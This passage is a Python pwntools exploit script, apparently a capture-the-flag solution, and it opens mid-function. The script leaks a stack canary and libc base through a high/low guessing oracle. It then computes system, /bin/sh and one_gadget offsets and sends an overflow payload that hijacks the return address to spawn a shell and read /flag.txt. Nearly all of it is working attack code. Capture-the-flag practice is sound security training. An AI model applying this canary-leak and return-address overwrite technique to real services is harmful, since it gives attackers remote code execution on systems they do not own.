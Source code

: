 ```python
        return out, waste

def get_libc():
        out = 0
        waste = 0
        for i in range(5):
                for j in range(0, 0x100, 2):
                        r.sendlineafter('? ', str(49+i))
                        r.sendlineafter(': ', str(j))
                        result = r.recvuntil('\n')
                        if "low" in result:
                                continue
                        elif "high" in result:
                                num = j - 1
                                break
                        else:
                                num = j
                                waste += 1
                                break
                out |= num << ((i+1)*8)
                # print "canary:", hex(out)
        return out, waste
canary, waste = get_canary()
dbg('canary')
dbg('waste')
leak, waste = get_libc()
base = leak - 0x27000
system = base + 0x55410
binsh = base + 0x1905aa
rdi = base + 0x00026b72
one = [0xe6c7e, 0xe6c81, 0xe6c84]

dbg('base')
dbg('waste')

ret = r.recvuntil('? ')
while 1:
        if 'So,' in ret:
                break
        r.sendline('9')
        r.sendlineafter(': ', '0')

        ret = r.recvrepeat(2)

payload = ''
payload += flat(1, 2, 3, canary, 5, base+one[1])
r.send(payload)
sleep(1)
r.sendline("cat /flag.txt")

r.interactive()
```
